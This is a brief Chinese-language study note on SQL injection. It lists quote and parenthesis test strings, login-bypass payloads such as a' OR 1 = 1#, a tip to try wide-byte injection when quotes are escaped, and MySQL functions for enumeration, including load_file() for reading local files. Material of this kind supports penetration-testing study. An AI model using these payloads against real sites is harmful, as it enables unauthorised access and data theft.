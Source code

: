 # Sql注入笔记

### 注入检测

| 测试字符串   | 变种           |
| ------------ | -------------- |
| '            |                |
| 1' or '1'='1 | 1') or ('1'='1 |
| 1'           | 1')            |
| 1"           | 1")            |

把引号都测一遍，都没报错再加上括号试试，

然后再考虑引号被转义了，用宽字节注入试试。

 

#### 登陆界面

丁真：我测你们码，



下面为测试字符串。

```
1 OR 1 = 1#
a' OR 1 = 1#
a') OR 1 = 1#
a')) OR 1 = 1#
a" OR 1 = 1#
a") OR 1 = 1#
a")) OR 1 = 1#
```



### mysql基础

#### 常用函数

- version()   数据库版本

- user()   数据库拥有者

- database()  数据库

- system_user()：系统用户名

- session_user()：连接数据库的用户名

- current_user：当前用户名

- load_file()：读取本地文件

- @@datadir：读取数据库路径
